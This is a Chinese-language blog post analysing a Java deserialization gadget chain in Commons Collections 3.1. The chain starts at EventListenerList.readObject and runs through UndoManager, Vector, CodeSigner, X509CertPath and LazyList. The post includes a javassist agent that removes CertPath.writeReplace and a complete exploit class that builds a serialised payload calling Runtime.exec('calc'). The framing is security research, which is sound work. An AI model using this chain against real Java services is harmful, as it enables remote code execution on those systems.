

# 前言

最近在逛先知玩，先存一副看到的总结的很好的CC链的图片


CC链其实很有很多条，不过大多数都是排列组合，师傅将不同触发点的内容都总结了下来

除了这些，一些师傅用CodeQL也挖出来了新的链子，除了用LazyMap能触发到transform方法，用LazyList的get也可以触发transformedList，从而触发transform方法

另外当起点是EventListenerList的readObject方法的时候也可以触发到特定类的toString方法

# 环境搭建

```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
</dependencies>
```

使用的Java版本8u201

# Java Unsafe类

```
sun.misc.Unsafe这个类位于rt.jar包，Unsafe类提供了硬件级别的原子操作，类中的方法都是native方法，它们使用JNI的方式访问本地C++实现库。由此提供了一些绕开JVM的更底层功能，可以提高程序效率
```

这个类提供了很多高效的操作，目前在反序列化中我们可以先了解这样一串代码

```
Field field = Unsafe.class.getDeclaredField("theUnsafe");
field.setAccessible(true);
Unsafe unsafe = (Unsafe) field.get((Object) null);
unsafe.putObject(decorated, unsafe.objectFieldOffset(ListOrderedMap.class.getDeclaredField("insertOrder")), decorate);
X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);
```

需要通过反射去创建Unsafe实例，在创建Unsafe实例后就可以调用其提供的native方法，可以通过allocateInstance创建一个类的实例，putObject方法相当于反射修改某个实例中某个字段的值

当然这个类的功能远不止如此，但是在反序列化中，我们可以用这个简单地来代替反射，就不用专门再去写反射修改的函数了，相当于已经做了一层包装

# 复现

先写一个agent来hook掉writeReplace方法，相关的transform代码如下

```
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtMethod;  

import java.lang.instrument.ClassFileTransformer;  
import java.lang.instrument.IllegalClassFormatException;  
import java.security.ProtectionDomain;  
import java.security.cert.CertPath;  

public class RemoveReplaceTransformer implements ClassFileTransformer {  
    @Override  
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {  
        if(className.equals("java/security/cert/CertPath")){  
            try {  
                System.out.println(true);  
                ClassPool pool = ClassPool.getDefault();  
                CtClass ctClass = pool.get("java.security.cert.CertPath");  
                CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");  
                ctClass.removeMethod(writeReplace);  
                ctClass.detach();  
                return ctClass.toBytecode();  
            }catch (Exception e){  
                System.out.println(e);;  
            }  

        }  

        return  classfileBuffer;  
    }  

}
```

在如下exp中加入agent运行

```
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;
import org.apache.commons.collections.map.ListOrderedMap;
import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.CodeSigner;
import java.util.*;

public class exp {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformedList transformedList = (TransformedList) TransformedList.decorate(new ArrayList(), chainedTransformer);

        LazyList lazyList = (LazyList) LazyList.decorate(transformedList, new ConstantFactory(chainedTransformer));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);

        X509CertPath x509CertPath = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(x509CertPath, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), lazyList);

        CodeSigner codeSigner = (CodeSigner) unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(codeSigner, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), x509CertPath);

        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) getFieldValue(undoManager, "edits");
        vector.add(codeSigner);

        EventListenerList eventListenerList = new EventListenerList();
        Field field2 = eventListenerList.getClass().getDeclaredField("listenerList");
        field2.setAccessible(true);
        field2.set(eventListenerList, new Object[]{InternalError.class, undoManager});
//        EventListenerList eventListenerList = new EventListenerList();
//        unsafe.putObject(eventListenerList,unsafe.objectFieldOffset(eventListenerList.getClass().getDeclaredField("listenerList")),new Object[]{InternalError.class, undoManager});

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(eventListenerList);
        System.out.println(Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray()));
        ByteArrayInputStream bin = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        new ObjectInputStream(bin).readObject();

    }
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
    public static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;

        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException var4) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }

        return field;
    }
}
```


# 分析

在EventListenerList的readObject方法中，会调用add方法，其中会传递一个EventListener类型的参数l


l是通过readObject读出来的，在wirteObject中看到


其实是listenerList这个数组的第二个参数，在这个add方法中，如果t不是l的实例，就会抛出异常，这里会对`l`进行处理


在处理数据的时候Java会调用StringBuilder的append方法


当时字符串就调用字符串的append方法，当调用到l的时候，是一个对象，就调用传入obj的append方法，其中的valueOf方法如下



会调用实例的toString方法，这里需要一个实现EventListener接口的类，选择的是UndoManager


跟进其父类的toString方法


在这几个参数中，edits参数是一个对象，同理，通过append方法可以调用到Vector的toString方法


在其父类的toString方法中，判断迭代器中的数据是否是自己，不是的话调用StringBuilder的append方法来对其进行处理，相当于可以调用任意类的toString方法了，这也算是调用toString的一种方法吧

N1ght师傅用codeql找到了CodeSigner的toString方法也可以利用


singerCertPath属性是CertPath对象


这个抽象类只有一个实现就是X509CertPath


其getCertificates直接返回的是certs数组的值，在获取数组后会调用get方法，传入的索引是0，这里就可以用到LazyList的get方法了


其中的factory在构造函数中可控


如果去跟进的话可以看到getList返回值也是可控的，其实就是decorate传入的两个值，这里就用到了TransformeredList的add方法


可以调用到transformer的transform方法了，后面就和CC链相同了

但是在生成payload的时候，序列化出错了


这里看到师傅用了agent将writeReplace方法hook掉，第一次遇到这种方式，所以想记录一下这个链子

但是我自己写的payload却序列化成功了，不过如果不hook掉这个方法，反序列化的时候又报错了


这条链子也是用codeql挖也是source点也是选的toString方法，只不过要注意的是如果不hook掉writeReplace方法，就会失败，当然既然是toString方法，用BadAttributeValueExpException和Xbean应该也可以达到相应的效果，有兴趣可以试试


参考链接：

https://www.cnblogs.com/trunks2008/p/14720811.html#/

https://www.cnblogs.com/bitterz/p/15952315.html#/

https://xz.aliyun.com/t/14311